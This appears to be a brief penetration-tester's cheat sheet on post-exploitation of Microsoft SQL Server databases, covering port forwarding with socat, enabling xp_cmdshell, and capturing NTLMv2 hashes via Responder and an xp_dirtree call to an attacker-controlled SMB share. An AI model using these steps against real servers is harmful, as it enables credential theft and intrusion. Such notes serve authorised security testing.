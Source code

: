 # Database Post Exploitation

## Access Database

- Make port available on a public port using `socat` local port forwarding
- Use `dbeaver` to access the database


## Enable xp_cmdshell

Check [this](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/wendels-small-hacking-tricks-microsoft-sql-server-edition/)

## xp_cmdshell to NTMLv2

- Use responder and a fake impacket SMB server
- Call `master..xp_dirtree '\\<IP>\foo'`
